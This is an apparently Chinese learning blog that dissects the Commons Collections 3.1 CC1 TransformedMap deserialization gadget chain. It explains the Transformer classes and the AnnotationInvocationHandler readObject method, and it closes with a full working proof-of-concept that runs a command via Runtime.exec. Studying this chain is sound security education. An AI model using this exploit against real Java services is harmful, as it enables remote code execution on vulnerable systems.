


# 前言

终于快入门了呜呜呜，开始学习`CommonsCollections1`的`TransformedMap`链。


# 环境

```xml
    <dependencies>

        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>

    </dependencies>
```

`JDK`版本应该为`8u71`之前。

# 前置知识

其实就是了解`CommonsCollections`中的几个`Transformer`。这几个类建议直接看着源码来学习。

## Transformer

```java
public interface Transformer {

    /**
     * Transforms the input object (leaving it unchanged) into some output object.
     *
     * @param input  the object to be transformed, should be left unchanged
     * @return a transformed object
     * @throws ClassCastException (runtime) if the input is the wrong class
     * @throws IllegalArgumentException (runtime) if the input is invalid
     * @throws FunctorException (runtime) if the transform cannot be completed
     */
    public Object transform(Object input);

}
```

`Transformer`是一个接口，根据注释，`transform()`方法是把输入的对象转换成某个输出对象，而且这个输入对象应该保持不变。

根据英语来翻译理解起来可能又些偏差，个人理解就是这个函数自定义输出了，后面具体分析的时候会感受到这一点。


## TransformedMap

```java

/**
 * Decorates another <code>Map</code> to transform objects that are added.
 * <p>
 * The Map put methods and Map.Entry  method are affected by this class.
 * Thus objects must be removed or searched for using their transformed form.
 * For example, if the transformation converts Strings to Integers, you must
 * use the Integer form to remove objects.
 * <p>
 * This class is Serializable from Commons Collections 3.1.
 *
 * @since Commons Collections 3.0
 * @version $Revision: 1.11 $ $Date: 2004/06/07 22:14:42 $
 * 
 * @author Stephen Colebourne
 */
public class TransformedMap
        extends AbstractInputCheckedMapDecorator
        implements Serializable {
```

根据注释，用于装饰一个`Map`对象，转换它添加的对象。

直接看它的`decorate()`方法：

```java

    /**
     * Factory method to create a transforming map.
     * <p>
     * If there are any elements already in the map being decorated, they
     * are NOT transformed.
     * 
     * @param map  the map to decorate, must not be null
     * @param keyTransformer  the transformer to use for key conversion, null means no conversion
     * @param valueTransformer  the transformer to use for value conversion, null means no conversion
     * @throws IllegalArgumentException if map is null
     */
    public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }

    //-----------------------------------------------------------------------
    /**
     * Constructor that wraps (not copies).
     * <p>
     * If there are any elements already in the collection being decorated, they
     * are NOT transformed.
     * 
     * @param map  the map to decorate, must not be null
     * @param keyTransformer  the transformer to use for key conversion, null means no conversion
     * @param valueTransformer  the transformer to use for value conversion, null means no conversion
     * @throws IllegalArgumentException if map is null
     */
    protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        super(map);
        this.keyTransformer = keyTransformer;
        this.valueTransformer = valueTransformer;
    }
```

是个静态方法，里面调用了类的`protected`构造器。根据注释就可以理解，`decorate()`方法的第一个参数就是要修饰的`Map`对象，第二个和第三个参数都是实现了`Transformer`接口的类的对象，分别用来转换`Map`的键和值。为`null`的话就意味着没有转换。传出的`Map`是被修饰后的`Map`。

根据：

```java
The Map put methods and Map.Entry setValue method are affected by this class.
```

可以知道，使用`put`还有`setValue`方法的时候，对应的键或者值会作为`input`参数，调用相应的`Transformer`的`transform()`方法，该方法返回一个新的对象。（注意这个`setValue`方法，下文有用）

P神是这样解释的，我觉得比较容易理解：




看一个简单的例子即可理解：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class BasicLearn {
    public static void main(String[] args) {
        test1();
    }
    public static void printMap(Map map){
        for (Object entry: map.entrySet()){
            System.out.println(((Map.Entry)entry).getKey());
            System.out.println(((Map.Entry)entry).getValue());
        }
    }
    public static void test1(){
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap,new KeyTransformer(),new ValueTransformer());
        outerMap.put("key","value");
        printMap(outerMap);
    }
}

class KeyTransformer implements Transformer{

    @Override
    public Object transform(Object o) {
        System.out.println("KeyTransformer");
        return "key";
    }
}
class ValueTransformer implements Transformer{

    @Override
    public Object transform(Object o) {
        System.out.println("ValueTransformer");
        return "value";
    }
}
```


## ConstantTransformer

```java

/**
 * Transformer implementation that returns the same constant each time.
 * <p>
 * No check is made that the object is immutable. In general, only immutable
 * objects should use the constant factory. Mutable objects should
 * use the prototype factory.
 * 
 * @since Commons Collections 3.0
 * @version $Revision: 1.5 $ $Date: 2004/05/16 11:36:31 $
 *
 * @author Stephen Colebourne
 */
public class ConstantTransformer implements Transformer, Serializable {
```

比较简单，把这个类的源码看一遍就理解了，是`Transformer`接口的一个实现。

具体的转换就是，对于`input`，总是返回一个相同的不变值：

```java

    /**
     * Transforms the input by ignoring it and returning the stored constant instead.
     * 
     * @param input  the input object which is ignored
     * @return the stored constant
     */
    public Object transform(Object input) {
        return iConstant;
    }
```


简单的例子：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class BasicLearn {
    public static void main(String[] args) {
        test2();
    }
    public static void test2(){
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap,null,ConstantTransformer.getInstance("feng"));
        outerMap.put("key","value");
        printMap(outerMap);
    }
    public static void printMap(Map map){
        for (Object entry: map.entrySet()){
            System.out.println(((Map.Entry)entry).getKey());
            System.out.println(((Map.Entry)entry).getValue());
        }
    }
}
```


## InvokerTransformer

看到这个类的名字就会想到反射中的方法调用，也确实是这样：

```java

/**
 * Transformer implementation that creates a new object instance by reflection.
 * 
 * @since Commons Collections 3.0
 * @version $Revision: 1.7 $ $Date: 2004/05/26 21:44:05 $
 *
 * @author Stephen Colebourne
 */
public class InvokerTransformer implements Transformer, Serializable {
```

具体还是看源码，利用反射执行函数：

```java
    public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);
                
        } catch (NoSuchMethodException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
        }
    }
```


具体实例化或者调用`getInstance`的时候需要传三个参数，联想一下反射中调用方法的流程，就知道需要哪些参数了。第一个参数是方法名，第二个参数是该方法的所有传入参数的类型（`Class`），第三个参数就是要传入的参数列表。

还是看例子，命令执行：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class BasicLearn {
    public static void main(String[] args) {
        test3();
    }
    public static void test3(){
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap,null,
                InvokerTransformer.getInstance("exec",new Class[]{String.class},new Object[]{"calc"}));

        outerMap.put("key",Runtime.getRuntime());
    }
}

```


## ChainedTransformer

最后一个需要了解的类，根据名字多少也能猜到一点。直接看这个类的注释还有构造函数就懂了：

```java

/**
 * Transformer implementation that chains the specified transformers together.
 * <p>
 * The input object is passed to the first transformer. The transformed result
 * is passed to the second transformer and so on.
 * 
 * @since Commons Collections 3.0
 * @version $Revision: 1.7 $ $Date: 2004/05/16 11:36:31 $
 *
 * @author Stephen Colebourne
 */
public class ChainedTransformer implements Transformer, Serializable {
    
    
    

    /**
     * Constructor that performs no validation.
     * Use <code>getInstance</code> if you want that.
     * 
     * @param transformers  the transformers to chain, not copied, no nulls
     */
    public ChainedTransformer(Transformer[] transformers) {
        super();
        iTransformers = transformers;
    }
```


把一个`Transformer[]`当入参数传进去，利用这个数组中的`Transformer`依次处理`input`，而且注意这个：

```
The input object is passed to the first transformer. The transformed result is passed to the second transformer and so on.
```

相当于一种链式的传递，前一个`Transformer`处理的得到的`output`会当作`input`给下一个`Transformer`处理。


理清了这些，很容易想到一个把这些串起来的命令执行：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map outerMap = TransformedMap.decorate(new HashMap(),null,chainedTransformer);
        outerMap.put("feng","feng");
    }
}

```


# TransformedMap链分析

了解完前置的知识后，就可以考虑真正的反序列化链了。在上面的命令执行中，最终我们是手动的执行了`put()`方法来实现了漏洞的触发。在反序列化中，我们需要找到一个可以用的类的`readObject()`方法，通过这个方法最终可以触发漏洞。

这个类是`sun.reflect.annotation.AnnotationInvocationHandle`：

```java
private final Map<String, Object> memberValues;


    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();

        while(var4.hasNext()) {
            Entry var5 = (Entry)var4.next();
            String var6 = (String)var5.getKey();
            Class var7 = (Class)var3.get(var6);
            if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }

    }
```

在`readObject`方法中，关键的这几行代码：

```java
Iterator var4 = this.memberValues.entrySet().iterator();
Entry var5 = (Entry)var4.next();
var5.setValue(
```

前面提到了，`setValue`同样可以触发我们的“回调函数”，因此可以触发漏洞。至此链也就理清了，剩下的就是构造POC的细节问题了。

## Runtime的问题

在序列化的时候会报无法序列化的错误。原因就在于`Runtime`类并没有实现`Serializable`接口，所以无法序列化：

```java
new ConstantTransformer(Runtime.getRuntime()),
```

这里P神采用了一种迂回的写法，因为`Class`类是实现了`Serializable`接口的，而且既然可以链式的调用方法，利用反射即可：

```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime")),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[]{}}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[]{}}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{"calc"})
        };
```


## AnnotationInvocationHandler对象的问题

既然要反序列化`AnnotationInvocationHandler`的对象，自然要构造出来。看一下它的构造器：

```java
package sun.reflect.annotation;   

      AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
        Class[] var3 = var1.getInterfaces();
        if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {
            this.type = var1;
            this.memberValues = var2;
        } else {
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        }
    }
```

发现这个构造器没有`public`，是`default`的。这个之前也遇到过了。因为这个类是JDK内部的类，不能直接用`new`实例化，所以也需要用反射才行，把我们构造好的`Map`对象作为第二个参数传进去：

```java
        //Reflection
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = clazz.getDeclaredConstructor(Class.class,Map.class);
        cons.setAccessible(true);
        Object o = cons.newInstance(Retention.class,outerMap);
```

这里有一个疑问就是`Class<? extends Annotation> var1`为什么要用`Retention.class`，这一点后面再提。


## readObject中的细节

```java
    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();

        while(var4.hasNext()) {
            Entry var5 = (Entry)var4.next();
            String var6 = (String)var5.getKey();
            Class var7 = (Class)var3.get(var6);
            if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }

    }
```

其中涉及到了很多关于注解的知识，确实对注解不太了解，只能硬着头皮去理解。

首先是`var2 = AnnotationType.getInstance(this.type);`，创建一个`AnnotationType`的实例。`Map var3 = var2.memberTypes();`返回了一个`Map`，根据这些：

```java
    public Map<String, Class<?>> memberTypes() {
        return this.memberTypes;
    }

private final Map<String, Class<?>> memberTypes;


    private AnnotationType(final Class<? extends Annotation> var1) {
        if (!var1.isAnnotation()) {
            throw new IllegalArgumentException("Not an annotation type");
        } else {
            Method[] var2 = (Method[])AccessController.doPrivileged(new PrivilegedAction<Method[]>() {
                public Method[] run() {
                    return var1.getDeclaredMethods();
                }
            });
            this.memberTypes = new HashMap(var2.length + 1, 1.0F);
```

大致可以猜出，这是一个`HashMap`。至于它的键和值，还得再了解一下自定义注解。


> 定义新的 Annotation 类型使用 @interface 关键字
>
> 自定义注解自动继承了java.lang.annotation.Annotation接口
>
> Annotation 的成员变量在 Annotation 定义中以无参数方法的形式来声明。其 方法名和返回值定义了该成员的名字和类型。我们称为配置参数。类型只能 是八种基本数据类型、String类型、Class类型、enum类型、Annotation类型、 以上所有类型的数组。
>
> 可以在定义 Annotation 的成员变量时为其指定初始值, 指定成员变量的初始 值可使用 default 关键字  如果只有一个参数成员，建议使用参数名为value
>
> 如果定义的注解含有配置参数，那么使用时必须指定参数值，除非它有默认 值。格式是“参数名 = 参数值” ，如果只有一个参数成员，且名称为value， 可以省略“value=”
>
> 没有成员定义的 Annotation 称为标记; 包含成员变量的 Annotation 称为元数 据 Annotation
>
> 注意：自定义注解必须配上注解的信息处理流程才有意义。

再看看`this.type`，也就是我们传的`Retention.class`：

```java
Object o = cons.newInstance(Retention.class,outerMap);
```


```java
@Documented
@Retention(RetentionPolicy.RUNTIME)
@Target(ElementType.ANNOTATION_TYPE)
public @interface Retention {
    /**
     * Returns the retention policy.
     * @return the retention policy
     */
    RetentionPolicy value();
}
```

通过`@interface`说明是一个新定义的`Annotation`，默认继承了`java.lang.annotation.Annotation`接口，因此这也满足了`Class<? extends Annotation> var1`。

方法名是成员名字，返回值是成员的类型，对于`Map var3 = var2.memberTypes();`返回的这个`Map`，它的键就是成员的名字，值就是成员的类型（按照我个人的理解）：


再继续看，剩下的部分就很容易理解，不需要分析了，主要是这个：

```java
        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();

        while(var4.hasNext()) {
            Entry var5 = (Entry)var4.next();
            String var6 = (String)var5.getKey();
            Class var7 = (Class)var3.get(var6);
            if (var7 != null) {
```

需要`var7 != null`才能进入`if`，触发漏洞。想让`var7`不为`null`，就需要从我们控制的map里面得到的键，在`Map var3 = var2.memberTypes();`得到的`Map`里面也有同样的键才行。既然`Retention`里面的键是`value`，因此我们给传入的 `Map`键设置成`value`也就可以了。

至此，整个Gadget就理清了。

写个POC：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime")),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[]{}}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[]{}}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value","feng");
        Map outerMap = TransformedMap.decorate(innerMap,null,chainedTransformer);

        //Reflection
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = clazz.getDeclaredConstructor(Class.class,Map.class);
        cons.setAccessible(true);
        Object o = cons.newInstance(Retention.class,outerMap);

        byte[] bytes = serialize(o);
        unserialize(bytes);

    }
    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
}
```


终于理清了CC1的`TransformedMap`链！虽然可能还有一部分的细节没太理解，比如注解那里，但是整体来说还是很好的。


# JDK版本的限制

这条`TransformedMap`链只能用于JDK8u71之前，原因就是从8u71开始，`AnnotationInvocationHandler`的`readObject()`方法发生了改变：

```java
    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        GetField var2 = var1.readFields();
        Class var3 = (Class)var2.get("type", (Object)null);
        Map var4 = (Map)var2.get("memberValues", (Object)null);
        AnnotationType var5 = null;

        try {
            var5 = AnnotationType.getInstance(var3);
        } catch (IllegalArgumentException var13) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var6 = var5.memberTypes();
        LinkedHashMap var7 = new LinkedHashMap();

        String var10;
        Object var11;
        for(Iterator var8 = var4.entrySet().iterator(); var8.hasNext(); var7.put(var10, var11)) {
            Entry var9 = (Entry)var8.next();
            var10 = (String)var9.getKey();
            var11 = null;
            Class var12 = (Class)var6.get(var10);
            if (var12 != null) {
                var11 = var9.getValue();
                if (!var12.isInstance(var11) && !(var11 instanceof ExceptionProxy)) {
                    var11 = (new AnnotationTypeMismatchExceptionProxy(var11.getClass() + "[" + var11 + "]")).setMember((Method)var5.members().get(var10));
                }
            }
        }

        AnnotationInvocationHandler.UnsafeAccessor.setType(this, var3);
        AnnotationInvocationHandler.UnsafeAccessor.setMemberValues(this, var7);
    }
```


看一下代码就会发现多了一个`LinkedHashMap var7`，在`for`循环中，里面也没有了`setValue`操作，而是变成了得到键和值，然后在`for`循环里面把键和值通过`put()`方法放进了这个`LinkedHashMap`里：




# 总结

学习了`CC1`的`TransformedMap`链，接下来就是`LazyMap`链的学习了，冲冲冲。

# 参考链接

Java安全漫谈 - 09.反序列化篇(3)

http://diego.team/2021/02/04/java-cc1-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%AE%80%E5%8D%95%E5%88%86%E6%9E%90/

https://y4tacker.blog.csdn.net/article/details/117279811